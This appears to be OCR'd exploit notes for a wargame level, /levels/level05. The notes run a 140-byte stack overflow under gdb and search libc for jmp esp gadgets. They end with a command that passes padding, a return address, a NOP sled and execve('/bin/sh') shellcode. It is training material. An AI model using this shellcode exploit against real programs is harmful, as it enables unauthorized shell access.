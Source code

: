 gdb --args /levels/level05 `perl -e 'print "A"x140, "\x0c\x0c\x0c\x0c"'`

$ ldd /levels/level05
linux-gate.so.1 =>  (0xb7fff000)
    libc.so.6 => /lib/i386-linux-gnu/libc.so.6 (0xb7ea0000)
/lib/ld-linux.linuxso.2 (0x80000000)

b main

find /b 0xb7ea0000, 0xb7fff000, 0xff, 0xe4
0xb7f9b5f3
0xb7faa1fb
0xb7fab077
0xb7fab25f
0xb7fab91b
0xb7fab923
0xb7fac007
0xb7fac847
0xb7faeb0f
0xb7fb7e4b
0xb7fb82a3
0xb7fb833b
0xb7fb83bb
0xb7fb840b
0xb7fb86cb
0xb7fb878b
0xb7fb87bb
0xb7fb8923
0xb7fb8f0b
0xb7fb90fb
0xb7fb9163
0xb7fb9553
0xb7fb96eb
0xb7fb9743
0xb7fb977b
0xb7fb9a63
0xb7fb9b2b
0xb7fba113
0xb7fba23b
0xb7fba2f3
0xb7fba61b
0xb7fbb753 \x53\xb7\xfb\xb7

/levels/level05 `perl -e 'print "A"x140, "\x53\xb7\xfb\xb7", "\x90"x8,
"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80"'`
